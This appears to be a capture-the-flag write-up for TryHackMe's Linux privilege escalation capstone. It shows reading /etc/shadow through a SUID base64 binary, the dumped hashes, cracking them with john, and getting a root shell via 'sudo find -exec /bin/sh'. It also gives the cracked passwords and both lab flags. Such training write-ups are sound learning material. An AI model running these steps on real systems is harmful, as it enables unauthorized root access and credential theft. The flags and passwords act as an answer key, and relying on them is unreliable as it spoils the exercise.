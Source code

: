 +++
title = "THM's Linux Privilege Escalation - Capstone"
author = ["a1v4"]
date = 2024-08-16
lastmod = 2024-08-16T01:22:22-05:00
tags = ["tryhackme", "writeup"]
draft = false
+++

Writeup for TryHackMe's _Linux Privilege Escalation_ capstone task.

<!--more-->

[Link to the room](https://tryhackme.com/r/room/linprivesc)

We connect to the box and run [linpeas](linpeas.txt), then we check through the list of
privilege escalation vectors listed in the room. We find that `base64` has
`suid` set.

```nil
-rwsr-xr-x. 1 root root 37K Aug 20  2019 /usr/bin/base64
```

We can use it to read `/etc/shadow`.

```nil
[leonard@ip-10-10-54-149 ~]$ base64 /etc/shadow | base64 -d
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

The password's hashes are salted, so we can't use something like
<https://crackstation.net> but instead have to run `john`. We copy `shadow` to our working
directory and attempt to crack it.

```nil
$ john --wordlist=~/SecLists/Passwords/Leaked-Databases/rockyou.txt shadow
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 24 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Password1        (missy)
Penny123         (leonard)
```

It quickly found `missy`'s password but not root's, I left it running but didn't
expect to find it as we already got horizontal privilege escalation. (Funny
enough, that was the password being used for the user in all the previous
rooms.) We switch to the `missy` user with `su`.

```nil
[leonard@ip-10-10-54-149 ~]$ su missy
Password:
[missy@ip-10-10-54-149 leonard]$ id
uid=1001(missy) gid=1001(missy) groups=1001(missy) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

We search for the flag files with `find`.

```nil
[missy@ip-10-10-54-149 leonard]$ find / -name 'flag*.txt' 2>/dev/null
/home/missy/Documents/flag1.txt
```

Only found the first one: `THM-42828719920544`.

We could run linpeas again, but most of it would be the same, so we just run the
enumeration commands manually. We run `sudo -l` and get:

```nil
[missy@ip-10-10-54-149 leonard]$ sudo -l
Matching Defaults entries for missy on ip-10-10-54-149:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-54-149:
    (ALL) NOPASSWD: /usr/bin/find
```

Check in [GTFOBins](https://gtfobins.github.io/) for [the `find` binary](https://gtfobins.github.io/gtfobins/find/) and find we can get a shell:

```nil
[missy@ip-10-10-54-149 leonard]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Repeat the `find` command to find the missing flag.

```nil
sh-4.2# find / -name 'flag*.txt' 2>/dev/null
/home/missy/Documents/flag1.txt
/home/rootflag/flag2.txt
```

The flag is `THM-168824782390238`.

